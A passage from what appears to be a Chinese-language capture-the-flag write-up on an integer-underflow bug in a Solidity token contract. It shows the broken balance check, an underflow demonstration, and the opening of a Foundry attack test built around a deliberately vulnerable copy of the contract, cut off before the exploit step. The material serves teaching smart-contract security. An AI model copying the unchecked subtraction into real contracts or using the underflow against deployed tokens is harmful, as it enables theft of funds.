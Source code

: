 ### 漏洞识别

**整数下溢问题**：

1. **无符号整数特性** - `uint` 类型不能为负数
2. **下溢行为** - 当 `0 - 1` 时，结果变成 `2^256 - 1`
3. **检查失效** - `require(balances[msg.sender] - _value >= 0)` 总是为真

### 攻击原理

```solidity
// 假设用户余额为 20
uint balance = 20;
uint transferAmount = 21;

// 下溢计算：20 - 21 = 2^256 - 1 (巨大的正数)
uint result = balance - transferAmount;
// result = 115792089237316195423570985008687907853269984665640564039457584007913129639935

// require 检查：巨大的正数 >= 0，总是为真
require(result >= 0); // ✅ 通过检查
```

## 💻 Foundry 实现

### 攻击测试代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";

// 复制原始有漏洞的合约 (使用 0.6.0 版本行为)
contract VulnerableToken {
    mapping(address => uint) public balances;
    uint public totalSupply;

    constructor(uint _initialSupply) {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

    function transfer(address _to, uint _value) public returns (bool) {
        // 故意使用不安全的算术运算
        unchecked {
            require(balances[msg.sender] - _value >= 0);
            balances[msg.sender] -= _value;
            balances[_to] += _value;
        }
        return true;
    }

    function balanceOf(address _owner) public view returns (uint balance) {
        return balances[_owner];
    }
}

contract TokenTest is Test {
    VulnerableToken public token;
    
    address public attacker = makeAddr("attacker");
    address public victim = makeAddr("victim");

    function setUp() public {
```